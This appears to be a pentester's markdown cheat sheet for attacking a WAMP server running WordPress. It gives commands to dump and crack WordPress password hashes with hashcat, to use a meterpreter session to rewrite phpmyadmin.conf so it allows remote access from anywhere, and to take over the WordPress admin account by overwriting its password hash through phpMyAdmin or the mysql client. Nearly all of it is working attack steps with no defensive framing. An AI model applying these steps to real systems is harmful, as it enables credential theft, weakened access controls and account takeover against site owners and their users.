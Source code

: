 # WAMP
- Dump and crack Web app (e.g. WordPress) hashed credentials.
```
show databases;
use wordpress;
select * from wp_users;

1 | admin      | $P$BXzMzwqxm65vuHegt/rsJN2VbXPtT.1 | admin         | admin@example.com

hashcat -m400 -a0 hashes.txt /usr/share/wordlists/rockyou.txt
```

- Modify phpmyadmin.conf to allow remote access.
```
meterpreter > cd C:\\wamp\\alias\\
meterpreter > dir
meterpreter > download C:\\wamp\\alias\\phpmyadmin.conf

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Order Deny,Allow --> Delete
        Deny from all --> Delete
        Allow from 127.0.0.1 --> Allow from all
</Directory>

meterpreter > upload ~/phpmyadmin.conf
meterpreter > cat phpmyadmin.conf
meterpreter > shell

net stop wampapache
net start wampapache
```

- Access /phpmyadmin.
  - No phpMyAdmin user - phpMyAdmin is a front-end for MySQL, only MySQL users.
```
http://<ip>:8585/phpmyadmin
```

- Change WordPress admin password from phpMyAdmin.
```
Click on wordpress.
Click on wp-users.
Edit admin user.
Set user_pass to MD5 (function) and password123 (Value).

Go back to http://<ip>:8585/ and click on wordpress under Your Projects.
Alternatively, go to http://<ip>:8585/wordpress/wp-admin.
Log in with the new password.
```

- Change WordPress admin password with mysql.
```
mysql -u root -p -h <ip>
use wordpress;
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```
